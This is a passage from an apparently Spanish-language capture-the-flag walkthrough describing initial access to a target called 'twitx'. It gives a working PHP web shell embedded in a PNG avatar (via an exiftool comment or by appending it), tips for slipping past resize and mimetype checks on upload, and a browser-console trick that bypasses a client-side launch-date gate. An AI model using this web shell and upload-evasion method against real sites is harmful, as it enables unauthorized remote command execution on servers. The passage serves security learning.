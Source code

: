 Para obtener el primer acceso, primero necesitamos preparar una imagen para nuestro avatar con una web shell, es importante que esta imagen sea menor a 150 píxeles para que al subirla no sea transformada, lo que causaría que la shell incluida en la imagen se pierda o se corrompa.

También es importante que la imagen esté en formato PNG, y no basta con solo cambiar la extensión; también se verifica el mimetype, por lo que es mejor usar una imagen real.

Creando una imagen con una web shell PHP incrustada, para evitar que la imagen se vea afectada, podemos incluirla, por ejemplo, como un comentario en la imagen. Prefiero este método ya que la imagen no se altera.

```
$ exiftool -comment='<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' avatar.png
```

Otra forma es incluirla directamente en la imagen, pero solo incluirla una vez.

```
$ echo '<?php if(isset($_REQUEST["cmd"])){  echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' >> avatar.png
```

Nos registramos con un usuario usando la imagen creada como el avatar del usuario, y anotamos la contraseña.

Ahora necesitamos hacer creer al sitio que ha llegado la hora del lanzamiento, podemos hacerlo de diferentes maneras. Cambiando la fecha en nuestra computadora, también podemos desofuscar el código y terminar viendo el formulario de inicio de sesión y cuál es el endpoint/URL POST donde se envían las credenciales, o simplemente modificando la variable dateFinish que encontramos.

Para modificar esta variable, abrimos la consola del navegador presionando la tecla F12 y cambiamos la fecha de lanzamiento a la fecha actual ingresando:

```
dateFinish = new Date();
```

![img_p6_2](../../../assets/images/twitx/img_p6_2.png)

Haciendo esto se mostrará el enlace de Log-in para iniciar sesión con el usuario creado.

![img_p7_1](../../../assets/images/twitx/img_p7_1.png)
